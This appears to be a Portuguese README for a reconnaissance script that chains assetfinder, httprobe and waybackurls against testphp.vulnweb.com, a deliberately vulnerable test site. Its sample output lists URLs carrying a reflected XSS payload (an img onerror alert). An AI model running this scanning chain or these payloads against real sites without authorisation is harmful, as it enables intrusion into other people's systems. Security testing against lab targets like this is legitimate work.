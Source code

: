 # hsctch

#Acessar a pasta onde baixou o arquivo

#Executa o comando abaixo:

#python3 /root/reconx-hsctch.py 

#Digite o domínio alvo (exemplo: dominio.com.br): 

testphp.vulnweb.com



_    _  _____  _____ _______ _____ _    _
| |  | |/ ____|/ ____|__   __/ ____| |  | |
| |__| | (___ | |       | | | |    | |__| |
|  __  |\___ \| |       | | | |    |  __  |
| |  | |____) | |____   | | | |____| |  | |
|_|  |_|_____/ \_____|  |_|  \_____|_|  |_|

                                           

Executando: Executando assetfinder
Comando: assetfinder -subs-only testphp.vulnweb.com | anew subdomains.txt
Saída: 
Executando assetfinder concluído com sucesso.

Executando: Executando httprobe
Comando: cat subdomains.txt | httprobe | tee -a host.txt
Saída: http://testphp.vulnweb.com

Executando httprobe concluído com sucesso.
Executando: Executando waybackurls
Comando: cat host.txt | waybackurls | tee -a endpoint.txt

Executando freq para encontrar possíveis XSS concluído com sucesso.
Executando: Buscando por XSS FOUND
Comando: grep 'XSS FOUND' possible_xss.txt > resultado.txt
Saída:
Buscando por XSS FOUND concluído com sucesso.
Busca concluída.

#ls
enddpoint.txt  host.txt  possible_xss.txt  resultado.txt  subdomains.txt  xss_fuzz.txt

#cat resultado.txt
XSS FOUND: http://testphp.vulnweb.com/showimage.php?file=%22%22%3E%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E%22
 XSS FOUND: http://testphp.vulnweb.com:80/hpp/index.php?pp=%22%22%3E%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E%22
 XSS FOUND: http://testphp.vulnweb.com/hpp/params.php?aaaa%2F=%22%22%3E%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E%22&p=%22>
 XSS FOUND: http://testphp.vulnweb.com/hpp/params.php?p=%22%22%3E%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E%22
 XSS FOUND: http://testphp.vulnweb.com/hpp/params.php?aaaa%2F=%22%22%3E%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E%22&p=%22>
